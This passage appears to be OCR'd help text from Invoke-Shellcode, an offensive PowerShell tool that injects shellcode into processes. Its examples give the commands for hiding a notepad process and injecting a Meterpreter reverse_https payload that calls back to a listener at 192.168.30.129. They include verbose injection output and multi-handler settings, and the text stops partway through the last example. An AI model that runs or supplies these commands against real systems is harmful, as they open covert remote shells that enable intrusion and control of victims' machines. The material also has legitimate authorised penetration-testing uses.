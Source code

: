 .PARAMETER Force

Injects shellcode without prompting for confirmation. By default, Invoke-Shellcode prompts for confirmation before performing any malicious act.

.EXAMPLE

C:\PS> Invoke-Shellcode -ProcessId 4274

Description
-----------
Inject shellcode into process ID 4274.

.EXAMPLE

C:\PS> Invoke-Shellcode

Description
-----------
Inject shellcode into the running instance of PowerShell.

.EXAMPLE

C:\PS> Start-Process C:\Windows\SysWOW64\notepad.exe -WindowStyle Hidden
C:\PS> $Proc = Get-Process notepad
C:\PS> Invoke-Shellcode -ProcessId $Proc.Id -Payload windows/meterpreter/reverse_https -Lhost 192.168.30.129 -Lport 443 -Verbose

VERBOSE: Requesting meterpreter payload from https://192.168.30.129:443/INITM
VERBOSE: Injecting shellcode into PID: 4004
VERBOSE: Injecting into a Wow64 process.
VERBOSE: Using 32-bit shellcode.
VERBOSE: Shellcode memory reserved at 0x03BE0000
VERBOSE: Emitting 32-bit assembly call stub.
VERBOSE: Thread call stub memory reserved at 0x001B0000
VERBOSE: Shellcode injection complete!

Description
-----------
Establishes a reverse https meterpreter payload from within the hidden notepad process. A multi-handler was set up with the following options:

Payload options (windows/meterpreter/reverse_https):

Name      Current Setting  Required  Description
----      ---------------  --------  -----------
EXITFUNC  thread           yes       Exit technique: seh, thread, process, none
LHOST     192.168.30.129   yes       The local listener hostname
LPORT     443              yes       The local listener port

.EXAMPLE

C:\PS> Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.30.129 -Lport 80

Description
-----------
Establishes a reverse http meterpreter payload from within the running PwerShell process. A multi-handler was set up with the following options:
